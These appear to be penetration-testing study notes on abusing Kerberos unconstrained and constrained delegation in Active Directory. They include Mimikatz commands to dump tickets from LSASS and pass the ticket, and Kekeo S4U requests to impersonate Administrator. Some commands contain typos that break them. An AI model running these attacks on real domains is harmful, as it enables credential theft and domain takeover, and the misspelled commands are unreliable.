 # Domain Privilege Escalation - Delegation

Kerberos delegation allows to re use user's credentials to access resources hosted on a different server , this is done in mult-tier service where kerberos double hop is required

Delegation could look like this where a user authenticates to web server , web server makes requests to database server but not as web service account but as the user account (that has authenticated)

## Steps in delegation

- User provides credentials to domain controller (DC)

- DC returns a Ticket Granting Ticket (TGT)

- User requests a Ticket Granting Service (TGS) for the service he wants to connects , let's say web service

- User sends TGT and TGS to web server

- Web service account uses the user's TGT to request to another service to use , let's assume database service

- Web server's account connects to database server as the user 

## Types of delegations

There are 2 types of delegations

- Unconstrained Delegation
- Constratined Delegation

## Unconstrained Delegation

Unconstrained delegation allows first hop server to request access to any service on any computer in domain

The way this delegation works is that domain controller places Ticket Granting Ticket (TGT) in Ticket Granting Service (TGS) , TGT is extracted from the TGS and TGT is stored in LSASS by the server , this way server can reuse user's TGT to access any resource in the domain as the user.

# PowerView

### Discover domain computers which have unconstrained delegation

```
Get-NetComputer -UnConstrained
```

## AD Module
```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -e $True}
```

# Mimikatz

After finding that which computer or service has unconstrained delegation enabled , we will need to make a domain admin login to that service/computer and with administrative privileges on that computer we can use mimikatz to list the avaiable tickets in the session , as in unconstrained delegation , TGT will be loaded in LSASS so we can use that to get domain admin

## Check if any domain admin token is available

```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

By running this command we can see a administrator token so use the command below to do `ptt` pass the ticket to load it into the current sessions

```
Invoke-Mimikatz -Command '"kerberos::ptt location_of_the_ticket(C:\Users\user\Documents\ticket_something)"'
```

## Constrained Delegation

Constrained delegation allows first hop to request access to specific services on specific computers. It allows access only to specified services on specified computers as a user.

It doesn't use kerberos when authenticating the user ,when a user authenticates to a web service , and the user requests something from database ,web server makes a requests using the authorized user account,   to impersonate the user  , `Service For user (S4U) extension is used ` that has two extensions

- Service for user to self (S4U2Self) , it allows a service to obtain forwardable TGS to itself on behalf of a user. This must have `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`
- Service for User to proxy (S4U2Proxy) , it allows a service to obtain a TGS for second service on behalf of authorized user. This is controlled by `msDS-AllowedToDelegateTo` attribute that contains list of SPNs to which user tokens can be forwarded

## Steps in constrained delegation

- A user authenticates to web serivce using non kerberos authentication mechanism.

- Web service requests a ticket from DC/KDC for the user's account without supplying the password as web service account.

- KDC checks if web service account has  `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` attribute and also if the user isn't blocked for delegation , then it forwards a S4U2Self ticket for the user's account.

- Service then passes this ticket back to KDC and a request a service ticket for the another service let's say Database service.

- KDC checks if  `msDS-AllowedToDelegateTo` is on the web service account ,if service is listed then it will return the token for database service (S4U2proxy).

- Web service can now authenticate to database service as the user's TGS to that service.


### PowerView (dev)

#### Enumerate users and computers with constrained delegations enabled

```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

### AD Module

#### Enumerate users and computers with constrained delegations enabled

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null" -Properties msDS-AllowedToDeleagteTo}
```

### Kekeo.exe

### Using `asktgt`  we will first get the TGT of  the service account that is allowed to delegate

```
tgt::ask /user:username /domain:domainname /rc4:ntlm_hash_of_user
```

### Using `s4u` , we request a TGS as any user on the service which we have permission to delegate

```
tgs::s4u /tgt:TGS_Ticket_of_service_account /user:Administrator@domainname /service:mssql
```

### Now using mimikatz , we can use pass the ticket to load the ticket in powershell session

```
Invoke-Mimikatz -Command '"kerebros::ptt administrator_ticket"'
```



